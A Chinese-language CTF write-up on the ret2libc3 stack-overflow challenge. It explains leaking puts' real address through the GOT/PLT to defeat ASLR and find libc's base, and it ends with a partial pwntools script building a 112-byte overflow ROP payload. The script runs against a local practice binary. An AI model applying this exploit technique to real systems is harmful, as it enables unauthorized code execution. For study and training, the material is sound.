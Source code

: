 > 示例：[https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2libc/ret2libc3](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2libc/ret2libc3)
>
> 参考资料：[https://blog.csdn.net/qq_41918771/article/details/90665950](https://blog.csdn.net/qq_41918771/article/details/90665950)
>
> [https://wiki.x10sec.org/pwn/stackoverflow/basic_rop/#3](https://wiki.x10sec.org/pwn/stackoverflow/basic_rop/#3)
>

将文件下载下来，检查一下文件保护：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596772481361-94ed9d60-a346-41f6-a825-7ecde28465cb.png)

32位程序，只开启了栈上不可执行保护。

扔到IDA中：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596772613000-274cd9fd-e770-46da-9322-6f7e2e2c6c84.png)

计算栈偏移，可以得到为112（略），在IDA里看一下，并没有发现system函数和/bin/sh字符串的身影。

现在当务之急就是得到system函数的地址，那么我们如何得到呢？这里就主要利用了两个知识点：

+ system 函数属于 libc，而 **<font style="color:#F5222D;">libc.so 动态链接库中的函数之间相对偏移是固定的。</font>**
+ 即使程序有 ASLR 保护，**也只是针对于地址中间位进行随机，最低的12位并不会发生改变**。而 libc 在github上有人进行收集，如下[https://github.com/niklasb/libc-database](https://github.com/niklasb/libc-database)

> 也可以使用工具网站：[https://libc.blukat.me/](https://libc.blukat.me/)，这个网址的数据库基于libc-database
>

所以我们只要得到libc的版本，就可以知道了system函数和/bin/sh的偏移量。知道偏移量后，再找到libc的基地址，就可以得到system函数的真实地址，就可以做我们想要做的事情了，我们可以通过一个公式来得到system的真实地址。

> libc基地址  +  函数偏移量   =  函数真实地址
>

应该怎么找libc基地址呢？真是一个让人头疼的问题。

我们可以泄露一个函数的真实地址，然后根据公式可以得到libc的基地址，因为知道了libc版本，就知道了函数偏移量。

问题又来了，我们该如何泄露函数的真实地址的，这里涉及到了libc的**<font style="color:#F5222D;">延迟绑定技术</font>**，这个技术大概就是当第一次调用一个函数的时候，这个函数的got表里存放着是下一条plt表的指令的地址，然后再经过一系列的操作(这里不详解got表和plt表的关系了，太复杂)得到了这个函数的真实地址，然后呢，再把这个函数的真实地址放到了got表里。当第二次调用这个函数的时候，就可以直接从Got表里取函数的真实地址，不用再去寻找了。

我们要泄露函数的真实地址**<font style="color:#F5222D;">，一般的方法是采用got表泄露，因为只要之前执行过puts函数，got表里存放着就是函数的真实地址了，这里我用的是puts函数，因为程序里已经运行过了puts函数，真实地址已经存放到了got表内。我们得到puts函数的got地址后，可以把这个地址作为参数传递给puts函数，则会把这个地址里的数据，即puts函数的真实地址给输出出来，这样我们就得到了puts函数的真实地址。</font>**

**<font style="color:#F5222D;">脚本如下：</font>**

```python
from pwn import *

p = process('./ret2libc3')
elf = ELF('./ret2libc3')

puts_got_addr = elf.got['puts']#得到puts的got的地址，这个地址里的数据即函数的真实地址，即我们要泄露的对象
puts_plt_addr = elf.plt['puts']#puts的plt表的地址，我们需要利用puts函数泄露
main_plt_addr = elf.symbols['_start']#返回地址被覆盖为main函数的地址。使程序还可被溢出

print "puts_got_addr = ",hex(puts_got_addr)
print "puts_plt_addr = ",hex(puts_plt_addr)
print "main_plt_addr = ",hex(main_plt_addr)

payload = ''
payload += 'A'*112
payload += p32(puts_plt_addr)#覆盖返回地址为puts函数
payload += p32(main_plt_addr)#这里是puts函数返回的地址。
payload += p32(puts_got_addr)#这里是puts函数的参数
```